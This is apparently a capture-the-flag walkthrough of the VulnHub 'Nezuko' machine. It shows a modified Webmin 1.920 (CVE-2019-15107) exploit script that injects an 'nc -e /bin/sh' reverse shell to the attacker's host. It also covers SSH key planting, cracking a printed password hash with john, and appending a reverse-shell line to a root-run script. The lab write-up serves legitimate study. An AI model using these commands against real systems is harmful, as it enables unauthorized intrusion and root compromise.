<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/nezuko-1,352/">Nezuko</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/@yunaranyancat">  nezuko kamado </a></h4>

## Nmap



Let's start our enumeration with the HTTP services.

***

## HTTP (port 80)

If we visit the website we can see a simple message with a gif.



I ran `gobuster` on the website and found few extra pages.



In the `robots.txt` there was a base32 encoded string.



I decoded it and got a message


`hint from nezuko : this is not the right port to enumerate ^w^`

But I still continued to look in the other dirs I found.

I visited to `/sample/` dir which had a file name `nothing_here.txt`



And there was literally nothing there 😄😄



Since I didn't found anything on this port. I decided to checkout port `13337`

## HTTP (port 13337)

I tried visiting this port via browser but request kept getting timedout. For some reason I was not able to open this port. But we know that there is a `Webmin` server running with version `1.920` so I decided to look for some kind of exploit.

With a simple google search I found [Webmin 1.920 - Remote Code Execution](https://www.exploit-db.com/exploits/47293).

I ran the script and got `Vulnerable` 🎉🎉



Now if we look at the code properly it's running `echo` command and then telling us whether it's vulnerable or not.

```bash
-d 'user=wheel&pam=&expired=2&old=id|echo '$FLAG'&new1=wheel&new2=wheel'
```

If we can replace this echo command with `reverse shell` code that will give us a shell.

After making changes our code would look like

```bash
#!/bin/sh

URI=$1;

echo -n "Testing for RCE (CVE-2019-15107) on $URI: ";
curl -X POST -ks $URI'/password_change.cgi' -d 'user=wheel&pam=&expired=2&old=id|nc -e /bin/sh 192.168.56.1 1337 &new1=wheel&new2=wheel' -H 'Cookie: redirect=1; testing=1; sid=x; sessiontest=1;' -H "Content-Type: application/x-www-form-urlencoded" -H 'Referer: '$URI'/session_login.cgi'

if [ $? -eq 0 ];
then
    echo '\033[0;31mVULNERABLE!\033[0m'
else
    echo '\033[0;32mOK! (target is not vulnerable) \033[0m'
fi
#EOF
```

I ran this script while my listener was listening and I got a shell.



I got the `nezuko.txt` in the `/home/nezuko/`



`1af0941e0c4bd4564932184d47dd8bef`

***

## Horizontal Privilege Escalation

First of all this is a very shitty Shell that we have right now. I tried to spwan tty shell but for some reason couldn't.

I noticed that in the `/home/nezuko` there is a `.ssh` folder but the `id_rsa` was empty. We can just place our own `SSH Key`(`id_rsa.pub`) in `authorized_keys` and then login.

Once I did that I was able to login via SSH.



Now we have a good shell for further enumeration. I downloaded and ran `enumeration` script.

I found list of user but there was something weird with one user.



We can see the password hash for `zenitsu`.

`$6$LbPWwHSD$69t89j0Podkdd8dk17jNKt6Dl2.QYwSJGIX0cE5nysr6MX23DFvIAwmxEHOjhBj8rBplVa3rqcVDO0001PY9G0`

I saved the hash to a file and used john to crack the password. I got the result within minutes.



Now we can change our user from `nezuko` to `zenitsu`



***

## Vertical privilege escalation

In the `/home/zenitsu` I found `zenitsu.txt`



`3f2ada6791f96b6a50a9ee43ee6b62df`

In that directory I found another dir name `to_nezuko` which had a shell script named `send_message_to_nezuko.sh`.



If we look at the `/home/nezuko/from_zenitsu/` we'll find lot of message but all of them had `root` permissions meaning this script is running with root privileges.



If we look at the perms of the shell file we can see that user `zenitsu` has the write to edit this file.



This mean we can just put a reverse shell code in that file and wait for this script to run.

I ran `echo "nc -e /bin/sh 192.168.56.1 4444" >> send_message_to_nezuko.sh`



Now run your listener with `nc -nlvp 4444` and wait for the root shell to pop up.

After a minute or so I got the reverse shell.



And then I got the root flag.



***

This is pretty good machine. The thing I liked about this VM was Nothing is hard and nothing is easy in this.

Thanks to [@yunaranyancat](https://twitter.com/@yunaranyancat) for making such a good VM.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
